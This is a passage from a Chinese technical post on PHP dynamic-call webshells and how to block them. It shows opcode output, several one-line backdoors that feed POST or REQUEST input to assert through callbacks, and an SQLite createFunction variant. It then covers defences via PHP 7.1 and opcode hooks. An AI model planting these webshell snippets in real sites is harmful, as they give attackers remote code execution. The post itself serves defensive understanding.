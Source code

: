 转到Opcode，就变成

    line     #* E I O op                           fetch          ext  return  operands
    -------------------------------------------------------------------------------------
       2     0  E >   ASSIGN                                                   !0, 'assert'
       3     1        INIT_DYNAMIC_CALL                                        !0
             2        SEND_VAL_EX                                              'phpinfo%28%29'
             3        DO_FCALL                                      0
             4      > RETURN                                                   1
    

还有以下各种变种：


```php
    <?php
    array_map(assign, $_POST);
    register_shutdown_function('assert', $_POST['code']);
    filter_var($_REQUEST['code'], FILTER_CALLBACK, ['options' => 'assert']);
    filter_var_array(['test' => $_REQUEST['code']], ['test' => ['filter' => FILTER_CALLBACK, 'options' => 'assert']]);
```

甚至还可以：

PHP

```php
    <?php
    $db = new SQLite3('db.db');
    $db->createFunction('f', 'assert');
    $stmt = $db->prepare("SELECT f(?)");
    $stmt->bindValue(1, $_POST['code'], SQLITE3_TEXT);
    $stmt->execute();
```

这种方式应该怎么防御呢？就有好几种办法了。

办法一，升级到PHP 7.1即可解决。PHP 7.1“Forbid dynamic calls to scope introspection functions”（[http:// php.net/manual/en/migra tion71.incompatible.php][5]），禁止了所有这种函数的调用。

办法二：

不用PHP 7.1的话还是得写扩展，在老版本PHP上实现新版本的功能。

首先，Hook住以下四个Opcode：ZEND_DO_FCALL ZEND_DO_ICALL ZEND_DO_UCALL ZEND_DO_FCALL_BY_NAME，检测一下调用了什么函数（zend_string_equals_literal(fbc->common.function_name, "print_r")）。所有的动态调用最后都会跑到INIT_DYNAMIC_CALL来，在zend_init_dynamic_call_xxxx里会给它打一个ZEND_CALL_DYNAMIC的flag。所以，当涉及到特殊函数时，就检测一下现在的current_execute_data是不是动态调用的即可。

按照PHP 7.1的逻辑，需要检测：

* assert() - with a string as the first argument
* compact()
* extract()
* func_get_args()
* func_get_arg()
* func_num_args()
* get_defined_vars()
* mb_parse_str() - with one arg
* parse_str() - with one arg


[0]: https://www.zhihu.com/people/zsx
[1]: http://link.zhihu.com/?target=https%3A//blog.zsxsoft.com/post/30
[2]: http://link.zhihu.com/?target=https%3A//github.com/derickr/vld
[3]: http://link.zhihu.com/?target=http%3A//php.net/manual/en/internals2.opcodes.include-or-eval.php
[4]: http://link.zhihu.com/?target=https%3A//github.com/php-src/php/blob/0eb3c377d49a331282b943dba165b4b9df56fad2/main/fopen_wrappers.c%23L475
[5]: http://link.zhihu.com/?target=http%3A//php.net/manual/en/migration71.incompatible.php
[6]: http://link.zhihu.com/?target=https%3A//github.com/zsxsoft/fval
[7]: http://link.zhihu.com/?target=http%3A//www.laruence.com/2008/06/18/221.html
[8]: http://link.zhihu.com/?target=http%3A//php.net/manual/en/intro.mysqlnd.php